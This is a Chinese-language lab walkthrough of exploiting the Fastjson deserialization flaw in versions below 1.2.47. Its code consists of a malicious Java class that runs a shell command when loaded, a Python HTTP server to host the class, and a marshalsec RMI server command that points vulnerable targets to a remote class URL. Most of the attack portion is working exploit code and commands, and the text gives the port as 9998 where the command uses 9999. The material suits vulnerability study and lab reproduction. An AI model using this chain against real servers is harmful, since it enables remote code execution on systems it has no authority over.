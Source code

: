 #### 影响版本

```php
Fastjson < 1.2.47
```

#### 漏洞启动

![image-20210805133152381](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a0878e40296596faa881b16ed4a27e58bc6a2f96.png)

![image-20210805133312714](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7c7ac25b700ee974495ab5d309371e76d5491cf0.png)

##### 因为目标环境是openjdk：8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，我们可以利用RMI进行命令执行。

![image-20210805133834236](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2a03e1681bb4f551cf8abe960e81881c6d94b1e5.png)

```php
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class zcc {
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"touch", "/tmp/zcctest111"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-609568c716e5bb2535f73cb65220c8b6d8f0025d.png)

![image-20210805134407703](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de0af2af27cfbb93d6adcf9329567b21e15e1abd.png)

##### 开启http服务

```php
python -m SimpleHTTPServer 8080 
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a54834a556029c406f7d5a58278f9bdc67efbf4d.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2a7b73e31742aeba683b9058cd3facc2fa300e4a.png)

##### 借助marshalsec项目启动RMI服务器，监听9998端口，并制定加载远程类zcc.class:

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.10.65/#zcc" 9999
```
